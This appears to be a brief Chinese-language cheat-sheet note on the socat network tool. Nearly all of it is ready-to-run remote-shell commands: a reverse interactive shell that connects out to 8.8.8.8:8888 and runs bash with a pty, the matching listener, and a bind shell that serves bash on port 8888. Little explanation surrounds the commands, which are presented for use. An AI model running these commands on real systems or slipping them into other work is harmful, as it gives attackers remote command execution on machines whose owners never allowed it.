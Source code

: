 # Introduction

```
一款比 nc 更加强大的网络工具
名称来源于 socket cat
```

#### 命令

反弹一个交互式的 shell
```
连接 : 
socat tcp-connect:8.8.8.8:8888 exec:'bash -li',pty,stderr,setsid,sigint,sane
监听 : 
socat file:`tty`,raw,err,echo=0 tcp-l:6666
```

正向 shell
```
socat tcp-l:8888,fork,reuseaddr exec:./bash 
```

#### 参考文献
> http://www.dest-unreach.org/socat/
